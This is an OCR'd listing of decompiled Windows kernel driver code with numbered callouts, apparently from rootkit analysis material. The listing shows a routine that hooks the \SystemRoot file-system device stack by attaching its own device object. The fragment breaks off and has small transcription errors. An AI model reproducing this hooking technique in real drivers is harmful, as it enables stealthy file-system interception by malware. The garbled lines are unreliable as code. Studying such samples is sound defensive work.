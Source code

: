```
NTSTATUS __stdcall SetHookOnSystemRoot(PDRIVER_OBJECT DriverObject,

                                       int **HookParams)

{

  RtlInitUnicodeString(&DestinationString, L"\\SystemRoot");

  ObjectAttributes.Length = 24;

  ObjectAttributes.RootDirectory = 0;

  ObjectAttributes.Attributes = 64;

  ObjectAttributes.ObjectName = &DestinationString;

  ObjectAttributes.SecurityDescriptor = 0;

  ObjectAttributes.SecurityQualityOfService = 0;

➊ NTSTATUS Status = IoCreateFile(&hSystemRoot, 0x80000000, &ObjectAttributes,

                                 &IoStatusBlock, 0, 0, 3u, 1u, 1u, 0, 0, 0, 0,

                                 0x100u);

  if (Status < 0 )

    return Status;

➋ Status = ObReferenceObjectByHandle(hSystemRoot, 1u, 0, 0,

                                     &SystemRootFileObject, 0);

  if (Status < 0 )

    return Status;

➌ PDEVICE_OBJECT TargetDevice = IoGetRelatedDeviceObject(SystemRootFileObject);

  if ( !_ TargetDevice )

      return STATUS_UNSUCCESSFUL;

  ObfReferenceObject(TargetDevice);

  Status = IoCreateDevice(DriverObject, 0xCu, 0, TargetDev->DeviceType,

                          TargetDevice->Characteristics, 0, &SourceDevice);

  if (Status < 0 )

    return Status;

➍ PDEVICE_OBJECT DeviceAttachedTo = IoAttachDeviceToDeviceStack(SourceDevice,

                                                                TargetDevice);

  if ( ! DeviceAttachedTo )

  {

    IoDeleteDevice(SourceDevice);
```